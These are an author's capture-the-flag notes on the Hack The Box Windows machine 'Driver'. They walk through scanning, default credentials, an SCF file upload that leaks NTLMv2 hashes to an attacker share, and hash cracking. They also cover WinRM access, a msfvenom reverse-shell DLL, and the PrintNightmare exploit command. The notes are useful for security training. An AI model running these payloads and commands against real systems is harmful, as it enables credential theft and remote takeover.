 Box info:
Windows
IP 10.10.11.106

**Enumeration:: **
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 18h51m14s, deviation: 0s, median: 18h51m13s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-07T01:30:02
|_  start_date: 2022-01-07T01:14:57

**dir::**
    + index.php, /images/, /fw_up.php(upload section)
        :requesting UN:PW "MFP firmware Update Center: enter PW for admin"
            + ::UN&PW admin:admin
            + download index.png
                + steghide:: doesnt work on .png
    + fw_up.php
        HTB DesignJet, Ecotank, Laserjet Pro, Mono
            + able to upload on any printer.
            + "GET /fw_up.php?msg=SUCCESS HTTP/1.1"
            + ***Where is upload location?***

**nikto::** 
    + php/7.3.25 
    + Server: Microsoft-IIS/10.0
    + default creds : admin:admin

smb is vuln to scf scripts:: see scf_file_attacks
+ msf6> use auxiliary/server/capture/smb
+ upload @test.scf script::
```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
+ capture hashes and run hashcat:: SEE:: ![weak_msf_ntlm2_hash](Screenshots/Driver_smb_scf_upload.png)
  + msf6 auxiliary(server/capture/smb) > [*] SMB Captured - 2022-01-06 07:29:15 -0500                               
    NTLMv2 Response Captured from 10.10.11.106:49450 - 10.10.11.106
    USER:tony DOMAIN:DRIVER OS: LM:
    LMHASH:Disabled
    LM_CLIENT_CHALLENGE:Disabled
    NTHASH:ad9b22a109fc9748b005176a30a7f24b
    NT_CLIENT_CHALLENGE:0101000000000000acc1da0d9703d801a0d96d845d3f38d300000000020000000000000000000000

**responder works much better than msfconsole::**  see::![proper_ntlmv2_hash](Screenshots/driver_scf_smb.png)

+ john --format=nt hash.txt
  + hashcat -m 5600 ntlmhashes.txt /usr/share/wordlists/rockyou.txt (seclist:: milw0rmdictionary.txt >> rockyou.txt )
    + creds: tony:liltony

+ rpcdump.py 10.10.11.106 -p 135 :: provides multiple vuln services in hacktricks                                                      1 ⨯

+ msfconsole> use auxiliary/scanner/winrm/winrm_cmd see [winRM_cmd](Screenshots/driver_winrm_cmd.png))
  + set cmd pwd :: C:\Users\tony\Documents
  + set cmd "cd ..\Desktop\ ; more user.txt" ![pwd_enum](Screenshots/driver_pwd_enum.png)
user:: 95d6e576b403ac91befbc9c0ab70463d

##**CVE-2021-1675**##
create payload:: 
+ `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=53 -f dll > revshell.dll #move to /opt/tranfers`
stage smbserver:: see ![](Screenshots/driver_smb_serve.png)
+ `python3 /opt/impacket/examples/smbserver.py kali . # user kali @ current director (/opt/transfers)`
setup listener::
+ `nc -lvnp 53`
Run exploit:: see ![](Screenshots/driver_run_explt.png)
+ `python3 ./CVE-2021-1675.py driver.htb/tony:liltony@10.10.11.106 '\\10.10.16.13\kali\revshell.dll'`


more c:\Users\Administrator\Desktop\root.txt
root:: 1026cd01def52e83a800703612fe0ef2


+TODO: impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x3a - ERROR_BAD_NET_RESP - The specified server cannot perform the requested operation.
Can't run printernightmare CVE-2021-1675
CVE-2021-1675 not working - see ![hmmmm](Screenshots/CVE20211675_no_workie.png)
    + https://github.com/cube0x0/CVE-2021-1675




[CVE](https://github.com/cube0x0/CVE-2021-1675)
[msrpc](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)
[scf_file_attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
[cracking_windows_hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)